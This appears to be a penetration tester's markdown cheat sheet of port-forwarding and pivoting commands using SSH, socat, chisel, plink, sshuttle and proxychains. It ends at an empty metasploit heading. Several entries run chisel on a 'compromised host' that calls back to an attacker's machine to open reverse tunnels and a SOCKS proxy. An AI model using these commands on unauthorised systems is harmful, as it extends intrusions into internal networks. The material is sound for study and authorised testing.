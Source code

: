 # Port Fowarding and Proxying


## Port Fowarding

### SSH Tunneling/Local Port Forwarding

```
ssh user@<ip> -p port -L 8001:127.0.0.1:8080 -fN

```

### SSH Remote Port Forwarding

```
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<ip>

```

### Socat - Port Forward

```
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080

```

### chisel - Remote Port Forward

- > Your machine

```
./chisel server -p <LISTEN_PORT> --reverse &

```

- > Compromised Host

```
./chisel client <ATTACKING_IP>:<LISTEN_PORT> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &

```

### Chisel - Local Port Forward

- > Compromised Host

```
./chisel server -p <LISTEN_PORT>

```

- > Your Machine

```
./chisel client <LISTEN_IP>:<LISTEN_PORT> <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT>

```

### pklink - Remote Port Forward

```
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20

```

## Proxying - Network Pivoting

### sshuttle (Unix) - proxying

```
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24

```

### SSH + Proxychains

edit /etc/proxychains.conf with socks4 127.0.0.1 8080

```
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222

```

### chisel - Reverse Proxy

- > Your Machine

```
./chisel server -p LISTEN_PORT --reverse &

```

- > Compromised Host

```
./chisel client <TARGET_IP>:<LISTEN_PORT> R:socks &

```

### chisel - Forward Proxy

- > Compromised Host

```
./chisel server -p <LISTEN_PORT> --socks5

```

- > Your Machine

```
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks

```

### metasploit - proxying
